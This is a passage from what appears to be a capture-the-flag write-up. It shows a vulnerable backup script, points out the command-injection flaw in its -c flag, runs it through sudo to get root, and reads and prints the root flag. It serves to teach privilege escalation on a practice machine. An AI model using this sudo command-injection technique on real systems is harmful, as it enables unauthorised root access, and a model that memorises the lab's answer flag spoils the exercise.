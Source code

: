 **Script Analysis:**
```bash
cat /etc/mp3backups/backup.sh
```

```bash
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt

while getopts c: flag
do
    case "${flag}" in 
        c) command=${OPTARG};;
    esac
done

backup_files="/home/alex/Music/song1.mp3 ... /home/alex/Music/song12.mp3"
dest="/etc/mp3backups/"
archive_file="ubuntu-scheduled.tgz"

tar czf $dest/$archive_file $backup_files

cmd=$($command)
echo $cmd
```

**Critical Vulnerability:**
```bash
cmd=$($command)
```
→ **Command injection via `-c` flag**

---

## 🚀 Step 6: Command Injection → Root Shell

```bash
sudo /etc/mp3backups/backup.sh -c "id"
```

**Output (truncated):**
```
uid=0(root) gid=0(root) groups=0(root)
```

```bash
sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"
```

**Root Flag:**
```
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```

**Root Flag:** `flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}`

---